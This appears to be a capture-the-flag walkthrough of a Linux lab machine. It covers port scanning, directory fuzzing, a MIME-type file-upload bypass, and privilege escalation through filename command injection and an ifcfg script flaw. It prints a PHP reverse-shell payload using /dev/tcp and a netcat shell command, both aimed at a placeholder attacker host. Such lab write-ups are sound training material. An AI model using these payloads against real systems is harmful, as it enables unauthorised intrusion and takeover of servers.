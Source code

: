 ----
#mimebypass #ifcfg

#### Reconnaissance

`nmap -sC -sV -p- 10.10.10.146`

```
Nmap scan report for 10.10.10.146
Host is up (0.078s latency).
Not shown: 65390 filtered tcp ports (no-response), 142 filtered tcp ports (host-unreach)
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2275d7a74f81a7af5266e52744b1015b (RSA)
|   256 2d6328fca299c7d435b9459a4b38f9c8 (ECDSA)
|_  256 73cda05b84107da71c7c611df554cfc4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 152.26 seconds
```

#### Enumeration

##### Port 80 - HTTP

- Port 80 is hosting a static webpage with the following text:

![[Screenshot 2023-06-12 at 9.27.08 PM.png|400]]

- Enumerating possible files/directories against the parent directory gives the following:

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u http://10.10.10.146/FUZZ  `

![[Screenshot 2023-06-12 at 11.33.59 PM.png|600]]

- Navigating to these directories gives us a page with file upload capabilities and a tar archive names `backup.tar`

![[Screenshot 2023-06-12 at 11.39.19 PM.png|400]]

![[Screenshot 2023-06-12 at 11.38.52 PM.png|400]]

- Extracting the archive provides `php` files that are hosted on the web server:

![[Screenshot 2023-06-12 at 11.40.36 PM.png|400]]

#### Exploitation

- Looking within the source code files, there are three file upload validation methods being used:

	1. `check_file_type()`  &  `file_mime_type()`: checks mime type of the uploaded file, must return a value of a image format
	2. `filesize()`: uploaded file must be less than 60,000 bytes
	3. File extension must end with `.jpg, .png, .gif, .jpeg`

- To bypass the mime type validation, adding `GIF89a;` to the first line of a shell code. Bypassing the other methods can be achieved through changing the file extension and ensuring the file does not exceed 60,000 bytes.
```
GIF89a;
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER IP>/<PORT> 0>&1'");
?>
```

- Uploading the file gives us the following response:

![[Screenshot 2023-07-12 at 10.07.52 AM.png|600]]

- Opening a netcat listener to the specified port and navigating to the photo gallery gives us a shell as the `apache` user:

![[Screenshot 2023-07-12 at 10.54.14 AM.png|400]]

#### Privilege Escalation to `guly`

- Two interesting files that the user, `apache`, has read access to in `guly` home directory are `check_attack.php` and `crontab.guly`. 

-  The `check_attack.php` script scans each file within the `uploads` directory for a valid IPv4 address for a filename. If the filename is not valid, the script removes and mails the `guly` user information about the file. 

```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

- This script is ran every 3 minutes using crontab, as specified in the `crontab.guly` file.
	`*/3 * * * * php /home/guly/check_attack.php`

- The method a file is removed using the `exec` function includes the `$value` variable, which is the filename(s) included in the `uploads` directory. This can be used to inject and run a command by including a semicolon in the front of the filename to obtain a shell as `guly`:
	`touch ;nc <ATTACKER IP> <PORT> -c bash`

![[Screenshot 2023-07-12 at 2.50.21 PM.png|500]]

#### Privilege Escalation to `root`

- The `guly` user can run sudo with the following commands:

![[Screenshot 2023-07-12 at 2.56.40 PM.png|500]]

- The `changename.sh` script outputs a script from `network-scripts` that has a privilege escalation vulnerability
	- [Vulmon Exploit](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)

- Following the documented vulnerability, we are able to escalate our privileges by adding a space and a command to be executed after the value for the `interface NAME` field of the script.

![[Screenshot 2023-07-12 at 3.27.38 PM.png|400]]
